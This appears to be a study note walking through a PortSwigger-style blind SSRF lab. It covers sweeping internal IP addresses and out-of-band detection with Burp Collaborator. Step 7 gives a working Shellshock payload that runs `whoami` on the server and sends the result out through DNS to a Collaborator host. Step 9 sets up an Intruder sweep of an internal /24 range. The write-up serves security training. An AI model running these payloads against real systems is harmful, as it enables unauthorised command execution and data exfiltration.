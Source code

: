 Simply using out-of-band techniques to identify blind SSRFs doesn't in itself provide a route to exploitability. Since you cannot view the response from the backend request the behavior can't be used to exploit what's inside the target system. However, it can still be used to probe for other vulnerabilities in the target system, for example:
- Blindly sweep the internal IP address space
- Send payloads designed to detect well-known vulnerabilities; wherein if the payloads employ blind out-of-band techniques, it can uncover a critical vulnerability on an unpatched server

Another way to exploit blind SSRF is to induce the application to connect to a server under the attacker's control, and return a malicious response to the HTTP client that makes the connection. If the attacker can exploit serious vulnerability in the server's HTTP implementation, it might lead to a remote code execution.
## Example
1. In [Burp Suite Professional](https://portswigger.net/burp/pro), install the "Collaborator Everywhere" extension from the BApp Store.
2. Add the domain of the lab to Burp Suite's [target scope](https://portswigger.net/burp/documentation/desktop/tools/target/scope), so that Collaborator Everywhere will target it.
3. Browse the site.
4. Observe that when you load a product page, it triggers an HTTP interaction with Burp Collaborator, via the Referer header.
5. Observe that the HTTP interaction contains your User-Agent string within the HTTP request.
6. Send the request to the product page to Burp Intruder.
7. Go to the [Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) tab and generate a unique Burp Collaborator payload. Place this into the following Shellshock payload:
    `() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN`
8. Replace the User-Agent string in the Burp Intruder request with the Shellshock payload containing your Collaborator domain.
9. Click "Clear §", change the Referer header to `http://192.168.0.1:8080` then highlight the final octet of the IP address (the number `1`), click "Add §".
10. Switch to the Payloads tab, change the payload type to Numbers, and enter 1, 255, and 1 in the "From" and "To" and "Step" boxes respectively.
11. Click "Start attack".
12. When the attack is finished, go back to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously. You should see a DNS interaction that was initiated by the back-end system that was hit by the successful blind [SSRF attack](https://portswigger.net/web-security/ssrf). The name of the OS user should appear within the DNS subdomain.
13. To complete the lab, enter the name of the OS user.
> Note: If Burp Collaborator is not available, we can use [CanaryTokens](https://canarytokens.org/generate#) and [interactsh](https://github.com/projectdiscovery/interactsh) as alternatives.

## Cracking the Lens: Targeting HTTP's Hidden Attack-Surface
![Cracking the Lens: Targeting HTTP's Hidden Attack-Surface](https://www.youtube.com/watch?v=zP4b3pw94s0)